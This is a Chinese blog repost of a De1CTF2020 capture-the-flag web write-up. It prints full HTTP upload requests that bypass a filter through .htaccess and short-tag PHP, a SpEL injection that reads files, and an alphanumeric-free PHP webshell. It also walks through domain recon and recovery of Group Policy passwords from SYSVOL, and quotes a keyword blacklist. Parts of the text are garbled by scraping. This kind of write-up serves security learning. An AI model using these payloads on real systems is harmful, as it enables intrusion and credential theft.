



<!--yml
category: 未分类
date: 2022-04-26 14:22:04
-->

# asp.net web submit链接页面_De1CTF2020的Web部分题解_weixin_39606137的博客-CSDN博客

> 来源：[https://blog.csdn.net/weixin_39606137/article/details/112128395](https://blog.csdn.net/weixin_39606137/article/details/112128395)

### 前言

题目质量很好，虽然很难但是学到不少东西！

#### 0x01 check in

###### 打开题目页面如下：


###### 题目是一个文件上传挑战，于是先上传一个`.php`后缀的文件先式式，不出意料失败，那么我们就上传一张`.jpg`的图片试试，结果如下：

###### 

```
perl|pyth|ph|auto|curl|base|>|rm|ruby|openssl|war|lua|msf|xter|telnet in contents!
```

###### 大概的意思就是过滤了这些`perl|pyth|ph|auto|curl|base|>|rm|ruby|openssl|war|lua|msf|xter|telnet`

###### 字符，而且我们上传的图片不能解析，因此我们可以上传一个`.htaccess`，添加其他后缀名解析为`.php`文件。如：`AddType application/x-httpd-php shell.ppt`。不过由于`php`字符串的过滤我们上传的文件不能包含`php`，因此我们上传的`.httacess`文件中的`php`可以用换行符绕过，对于上传了的`shell.ppt`文件，如果该php开启了短标签我们可以用短标签`=`来代替`<?php` ，下面我们就来尝试一下：

```
POST /index.php HTTP/1.1Host: 129.204.21.115User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflateContent-Type: multipart/form-data; boundary=---------------------------279095805311502314111982965121Content-Length: 384Origin: http://129.204.21.115Connection: closeReferer: http://129.204.21.115/index.phpUpgrade-Insecure-Requests: 1-----------------------------279095805311502314111982965121Content-Disposition: form-data; name="fileUpload"; filename=".htaccess"Content-Type: image/jpegAddType application/x-httpd-p\hp .ppt-----------------------------279095805311502314111982965121Content-Disposition: form-data; name="upload"submit-----------------------------279095805311502314111982965121--
```

###### 结果如下：

```
HTTP/1.1 200 OKDate: Mon, 04 May 2020 08:45:52 GMTServer: Apache/2.4.6 (CentOS) PHP/5.4.16X-Powered-By: PHP/5.4.16Content-Length: 1027Connection: closeContent-Type: text/html; charset=UTF-8        Cheek in 
```

# ```UPLOADS```

```**`**Your files :.htaccess**``**Your dir : uploads/001149b089f853aad2bda9214b94fb21**`**``` **```###### 上传`shell.ppt`:

```
POST /index.php HTTP/1.1Host: 129.204.21.115User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflateContent-Type: multipart/form-data; boundary=---------------------------279095805311502314111982965121Content-Length: 376Origin: http://129.204.21.115Connection: closeReferer: http://129.204.21.115/index.phpUpgrade-Insecure-Requests: 1-----------------------------279095805311502314111982965121Content-Disposition: form-data; name="fileUpload"; filename="shell.ppt"Content-Type: image/jpegGIF89a=system('cat /flag');-----------------------------279095805311502314111982965121Content-Disposition: form-data; name="upload"submit-----------------------------279095805311502314111982965121--
```

###### 结果如下：

###### 

```
HTTP/1.1 200 OKDate: Mon, 04 May 2020 08:46:10 GMTServer: Apache/2.4.6 (CentOS) PHP/5.4.16X-Powered-By: PHP/5.4.16Content-Length: 1027Connection: closeContent-Type: text/html; charset=UTF-8        Cheek in 
```

# ```UPLOADS```

```**`**Your files :shell.ppt**``**Your dir : uploads/001149b089f853aad2bda9214b94fb21**`**``` **```###### 直接访问

###### `http://129.204.21.115/uploads/001149b089f853aad2bda9214b94fb21/shell.ppt`

###### 得到flag：

```
De1ctf{cG1_cG1_cg1_857_857_cgll111ll11lll}
```

#### 合天网安实验室相关实验：

> ###### 绕过黑名单检查实现文件上传1http://hetianlab.com/expc.do?ec=ECIDc089-d935-4f8d-b0bd-d2342ea4423f(通过本实验了解文件上传漏洞产生的原因，掌握绕过黑名单实现文件上传的利用方法)

#### 0x02 calc

###### 题目打开是一个计算器，从打开的tab来看是一个使用`spring boot`框架的web项目。


###### 通过抓包发现该

###### `GET /spel/calc?calc=%7b%7b7*7%7d%7d`

###### 路由下存在SPEL注入，结果如下：


###### 可以发现计算的结果是`[[49]]`，因此存在注入。通过测试发现，过滤了

###### `Runtime,java.lang,getClass,T(,new`等，

###### 对于`new`我们可以用`neW`来代替，但是由于过滤了前面的字符我们不能够进行rce了但是我们可以用其他的方式读取文件。

###### 使用的类参考链接如下：https://blog.csdn.net/yiyiwudian/article/details/46522415。

###### 根据参考资料我们可以用`java.util.Scanner`来读取文件。payload如下：

```
neW Scanner(neW java.io.FileInputStream(neW java.io.File("/flag"))).nextLine()
```

###### 最后的结果如下：



###### 实验推荐

> ###### Springboot未授权访问 http://hetianlab.com/expc.do?ec=ECID07d9-3ccd-4c90-8a09-b980d8cd7858(通过该实验了解漏洞产生的原因，掌握基本的漏洞利用及使用方法)

#### 0x03 Hard_Pentest_1

###### 题目源码如下

###### 

```
 <?php //Clear the uploads directory every hourhighlight_file(__FILE__);$sandbox = "uploads/". md5("De1CTF2020".$_SERVER['REMOTE_ADDR']);@mkdir($sandbox);@chdir($sandbox);if($_POST["submit"]){    if (($_FILES["file"]["size"] < 2048) && Check()){        if ($_FILES["file"]["error"] > 0){            die($_FILES["file"]["error"]);        }        else{            $filename=md5($_SERVER['REMOTE_ADDR'])."_".$_FILES["file"]["name"];            move_uploaded_file($_FILES["file"]["tmp_name"], $filename);            echo "save in:" . $sandbox."/" . $filename;        }    }    else{        echo "Not Allow!";    }}function Check(){    $BlackExts = array("php");    $ext = explode(".", $_FILES["file"]["name"]);    $exts = trim(end($ext));    $file_content = file_get_contents($_FILES["file"]["tmp_name"]);    if(!preg_match('/[a-z0-9;~^`&|]/is',$file_content)  &&         !in_array($exts, $BlackExts) &&         !preg_match('/\.\./',$_FILES["file"]["name"])) {          return true;    }    return false;}?>upload 
```

###### 由于`Check()`函数的过滤，我们不能使用普通的字符，并且不能上传后缀为`.php`的文件，不过由于服务器是`windows`因此我们可以通过NTFS流的方式绕过后缀名的限制`::$DATA`，例如下面的文件名：

```
test.php::$DATA
```

###### 参考无字母数字webshell之提高篇((https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html))来构造我们的无字母的shell。

```
=$_=[]?>=$_=@"$_"?>= $_=$_['!'=='@']?>=$__=$_?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$___=$__?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$___.=$__?>=$__=$_?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$___.=$__?>=$__++?>=$___.=$__?>=$__=$_?>=$__++?>=$__++?>=$__++?>=$__++?>=$___.=$__?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$___.=$__?>=$____='_'?>=$__=$_?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$____.=$__?>=$__=$_?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$____.=$__?>=$__=$_?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>= $____.=$__?>=$__=$_?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$____.=$__?>=$_=$$____?>=$___($_[_])?>
```

###### 上传我们的代码：


###### 成功getshell：



###### 通过system写入一个一句话木马，例如：


###### 现在我们使用御剑来连接我们的shell，密码是`a`。

###### 在御剑中打开文件管理，可以看到flag是在`flag1_and_flag2hint`压缩包里，但是我们没有密码，而且爆破是不成功的，因此我们考虑windows渗透：

###### 1.我们查看我们所在的域`net time /domain`，结果如下：


###### 从上面的结果中可以看到我们所在的域是`dc.De1CTF2020.lab`。

###### 2.使用`ipconfig`命令来查看域控：


###### 从上面的结果来看我们的域控是`192.168.0.12`。

###### 3.拿到域控的共享文件夹，找到组策略。

```
net use \\192.168.0.12net view \\192.168.0.12net use S:\\192.168.0.12\wq回车后即可映射局域网内目标机器的S盘。或者直接访问net use \\192.168.0.12\SYSVOL\de1ctf2020.lab\Policies也行随你高兴
```

###### 结果如下：



###### 4.找到组策略下本地管理员保存登陆密码的Groups.xml文件：

```
<?xml version="1.0" encoding="utf-8"?>
```

###### 该密码是AES-256加密，微软提供了密钥https://msdn.microsoft.com/en-us/library/cc422924.aspx，直接解开即可，或者使用kail自带的`gpp-decrypt`解密，结果如下：

###### 5.解压压缩包拿到flag:

###### 


#### 0x04 参考链接

###### https://thief.one/2016/09/22/%E4%B8%8A%E4%BC%A0%E6%9C%A8%E9%A9%AC%E5%A7%BF%E5%8A%BF%E6%B1%87%E6%80%BB-%E6%AC%A2%E8%BF%8E%E8%A1%A5%E5%85%85/

###### https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html

###### 御剑使用方法

###### 域渗透——利用SYSVOL还原组策略中保存的密码

###### DOS下访问局域网内共享文件夹

###### https://zhuanlan.zhihu.com/p/26781760

###### Windows域环境及域渗透

###### https://github.com/l3m0n/pentest_study


**渗透测试训练营**

****


戳```**```**